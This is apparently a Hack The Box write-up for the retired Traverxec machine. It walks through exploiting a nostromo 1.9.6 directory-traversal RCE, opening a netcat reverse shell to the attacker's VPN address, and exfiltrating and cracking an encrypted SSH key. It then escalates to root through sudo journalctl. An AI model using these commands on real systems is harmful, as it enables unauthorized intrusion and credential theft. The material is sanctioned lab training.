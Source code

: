 For all the machines I do, I always start off with an nmap scan.  First a quick port scan and then a detailed port scan.
I start off by using `nmap -p- -T4 10.10.10.165`
This shows us that we have two ports open, 22 and 80.  On hack the box we don't need to brute force SSH, because there's other ways in.

Let's go ahead and get some version information about the services and the operating system.
`nmap -p22,80 -A -O -sV -T4 10.10.10.165 -oA Traverxec`
Here we are specifcally scanning the ports that we know are open with -p22,80, we use -A for OS detection, version detection, script scanning and traceroute, -sV specifcally for identifying service versions, -T4 for speed (-T5 is fastest, but tends to knock over hosts), -O is for Operating System detection again, and finally -oA Filename will put the output out in 3 different formats
```
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   52.86 ms 10.10.14.1
2   52.95 ms 10.10.10.165
```
Great we get the version of the http web server is 1.9.6.  Now we can visit the page and explore.  I always run dirbuster against web sites to look for the various directories.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.165`

After visiting http://10.10.10.165/admin we trigger an error and once again see that the version is nostromo 1.9.6.  Searching google we find some exploit code here https://www.exploit-dm.com/exploits/43837.
This says it is remote code execution, perfect exactly what we need.

Looking through the usage we need a target IP, target port, and a command to pass it.  The vulnerability is due to directory traversal where we can make a POST request using a few .0%d/ and eventually call a shell.
we are starting at a specific directory where the web server is sitting and moving up directories until we can then move into /bin where all the binaries are stored.
If you want to view the contents of the binary folder or any folder just visit http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./ This link shows you the contents of root.
![Root Directory of host](https://github.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/blob/master/Traverxec/Index%20of%20root%20on%20machine.png)

Select the bin folder if you want to see what binaries you can run and home to see what users are on the machine.  

To use the exploit code just save the code from exploit db into a file called cve2019_16278.py.  Then we want to run the command.  From looking at /bin we know what different binaries we can call from visiting here http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/.

The problem is a lot of them have 500 interal server error.  I made a list of all the files and then used foxy proxy and burp to capture the request of visiting http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/apt-cache
Any binary path would work here.
![Apt-Cache Example](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/apt-cache%20example.png)

Once you open burp, go to the proxy tab and turn intercept on.  Also your foxy proxy needs to be configured to send traffic through burp which is listening in my case on 8080.
![Burp Intercepted Request](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Intercepted%20Request.jpg)


Once we get the request the first line will look like this:  GET /.0%D./.0%D./.0%D./.0%D./bin/apt-cache.  Right click the request and send to Intruder.
![Burp Set Up Intruder](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Set%20up%20Intruder.png)
In intruder choose Sniper as the Attack Type and highlight apt-cache or whatever is after /bin/ and click Add.  Then under the payloads tab, paste the list you made earlier of all the binaries and click start attack.
![Burp Snipe Attack Intruder]((https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Set%20up%20Intruder%202.png)
This could be slowed down if you are running the free Burp, which I am.

We notice that bash gets a 500 Status, but sh gets a 200, so let's use sh in our exploit.

First start a netcat listener on your kali machine, nc -nlvp 4444.  You can use any port here.
Now cd into the folder where your exploit code is saved at from above.  My code is called cve2019_16278.py, remember we need to give it a target IP, target port, and command.  I had to use quotes for commands to pass it the arguments.
python cve2019_16278.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.26 4444"
the IP after /bin/sh is your Hack The Box VPN and the port your netcat is listening on.

Check your connection and we have a shell!  Here is our initial access!
The problem is that our shell is pretty limited luckily we can upgrade it by using python!  python -c 'import pty; pty.spawn("/bin/sh")'
now we have an upgraded shell.
Check whoami and find our we are www-data.

Looking around check the /home directories to see who some of the users are, which the only one is david.  Check David's directory, we are denied access.
Let's look for configuration files by using the command:  find / -type f -iname '*.conf'
Here we are starting at the root directory and looking for files that are .conf.
We notice there'a file in /var/nostromo/conf/ titled nhttpd.conf.  There are some issues using commands on this machine, so you have to use the full path.  We want to cat out the file so do which cat to know the path.
Finally /usr/bin/cat /var/nostromo/conf/nhttpd.conf.  This file shows us that in home dirs there is a homedirs_public directory called public_www
Let's see what may be in that folder so do ls /home/david/public_www.  There a protected file area, maybe we can move into that directory.  cd /home/david/public_www/protected-file-area and list the files.  Great we have backup-ssh-identify-files.tgz!
Let's move this file over to our attacker machine, which we can do via netcat.  On kali run: nc -l -p 1234 > backup-ssh-identity-files.tgz.  Our machine is now waiting for that file.
Let's see where netcat lives on our target by doing which nc, it's in /usr/bin/nc. Now send that file to the attacker machine by doing /usr/bin/nc -w 3 10.10.14.26 1234 < backup-ssh-identity-files.tgz
Now we have the file on our target file, let's uncompress the file by doing tar zxvf backup-ssh-identity-files.tgz and cat out the id_rsa file that comes out.
Well the first thing we notice is the file is encrypted, but that's no issue for tools like John the Ripper!
We can use the program ssh2john which is a python program that can properly format the file so we can then crack the key for id_rsa.

I put this in my sbin folder on kali so I did cd /usr/sbin, then grab the file by doing wget https://github.com/magnumripper/JohnTheRipper/tree/bleeding-jumbo/run/ssh2john.py.
Now I copied the file over to my directory for HackTheBox where my id_rsa file is stored.  Then do python ssh2john.py id_rsa > crack.txt.  We are outputting this to crack.txt to later crack the password for the id_rsa file.  If you cat crack.txt you can see the id_rsa file that's formatted as id_rsa:$sshng etc.
Finally use JohnTheRipper to crack the key for that file by doing john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt   Here we are telling john what wordlist to use and what file to try and crack.  It quickly finds the key to be hunter.
Now let's decrypt the id_rsa file by using openssl.   openssl rsa -in id_rsa -out dec.key It will prompt you for the password so enter hunter.
Finally ssh into the target by doing, ssh -i dec.key david@10.10.10.165
Great we can access the machine via SSH and we can cat out the user.txt file and submit that to HackTheBox!

Now starts privilege escalation!

I always start off by seeing what my user can do with sudo, but since we don't have david's password, we can't actually check this.

when you ls on david's home directory we notice a /bin folder which is interesting, so cd into /bin.  There's a server-stts.sh file, remember to run this we have to call bash with the full path.
/usr/bin/bash ./server-stats.sh.  This shows us the last 5 journal log lines, let's look at the actual file, cat server-stats.sh.
Notice at the bottoms the script calls /usr/bin/sudo and then executes journalctl as root!  Great, we are on to something!
journalctl is a command for viewing logs collected by systemd.

Since we know we can display 5 lines, you need to change the size of your terminal so it doesn't display all the lines at the bottom you see lines 1-6
enter !/bin/sh
we are in a root shell, use whoami to verify, and finally simply cat /root/root.txt and that's the machine!  

I hope you enjoyed my journey through Traverxec!












